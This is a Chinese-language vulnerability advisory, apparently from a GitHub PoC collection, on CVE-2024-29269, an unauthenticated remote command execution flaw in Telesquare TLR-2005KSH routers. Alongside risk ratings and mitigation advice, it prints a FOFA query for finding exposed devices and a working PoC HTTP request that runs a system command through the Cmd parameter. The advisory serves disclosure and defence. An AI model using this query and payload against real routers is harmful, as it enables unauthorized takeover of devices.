

# Telesquare TLR-2005KSH路由器 RCE(CVE-2024-29269)漏洞预警

# 漏洞描述

Telesquare TLR-2005Ksh 1.0.0和1.1.4版本存在未经授权的远程命令执行漏洞。攻击者可以利用此漏洞在未经Cmd参数授权的情况下执行系统命令并获取服务器权限。

# 影响范围

1.0.0 < version < 1.1.4

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 中 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：app="TELESQUARE-TLR-2005KSH"

POC/EXP：

GET /cgi-bin/admin.cgi?Command=sysCommand&Cmd=ifconfig HTTP/1.1
Host: 127.0.0.1:8084
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36 Edg/97.0.1072.55
Connection: close
Accept: */*
Accept-Encoding: gzip

# 修复方案

**官方修复：**

关闭互联网暴露面或接口设置访问权限

升级至安全版本

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
